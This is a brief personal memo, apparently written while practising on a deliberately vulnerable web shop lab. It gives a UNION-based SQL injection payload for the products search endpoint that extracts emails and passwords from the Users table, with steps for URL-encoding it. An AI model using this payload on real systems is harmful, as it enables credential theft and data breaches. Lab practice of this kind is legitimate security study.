

A note for Simon(myself)
how to find the database without docker :
go in the search bar, type something like test : 
GET /rest/products/search?q=
after that past : "qwert'))+UNION+SELECT+id,+email,+password,+'4',+'5',+'6',+'7',+'8',+'9'+FROM+Users-- HTTP/2"
dont forget to put(ctrl+A) them white cmd+u
dont touch token and adresse ; 

